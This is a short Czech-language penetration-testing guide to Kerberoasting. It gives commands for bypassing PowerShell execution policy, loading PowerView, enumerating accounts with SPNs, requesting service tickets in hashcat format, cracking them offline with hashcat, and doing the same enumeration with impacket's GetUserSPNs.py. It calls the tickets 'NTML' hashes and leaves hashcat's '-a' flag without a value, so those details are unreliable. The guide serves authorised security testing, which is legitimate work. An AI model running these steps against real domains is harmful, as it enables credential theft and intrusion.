 # Keberos - penetrační testy

## Kerberoasting

### Popis testu

Cílem testu je ověřit, zda je možné získat a prolomit NTML hash tiketů TGS. Tiket je zašifrován tajným klíčem uživatele odvozeného z jeho hesla. Získáním tiketů lze hesla lámat offline slovníkovým útokem nebo útokem hrubou silou.

### Jak provést test manuálně

**Enumerace (Windows)**

Naklonovat repozitář s **powerview.ps1** :
```
git clone https://github.com/PowerShellEmpire/PowerTools.git
```
Možnost přímeho stažení z:
https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

Import PowerView:
```
powershell.exe -nop -exec bypass

Import-Module <cesta k powerview.ps1>
```

Získat všechny uživatele s nastaveným SPN:
```
Get-DomainUser -SPN
```

**Exploitace (Windows)**

Zažádat o tiket:
```
Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat -Credential $cred
```

Lámání NTML hashe slovníkovým útokem pomocí [hashcat64](https://hashcat.net/hashcat/):
```
hashcat64.exe -a -m 13100 SPN.hash <cesta ke slovniku>
```

**Enumerace (Kali Linux)**

Enumerace:
```
git clone https://github.com/SecureAuthCorp/impacket.git

cd impacket/examples

python GetUserSPNs.py domena/uzivatel:heslo -outputfile <extrahovane hashe>
```
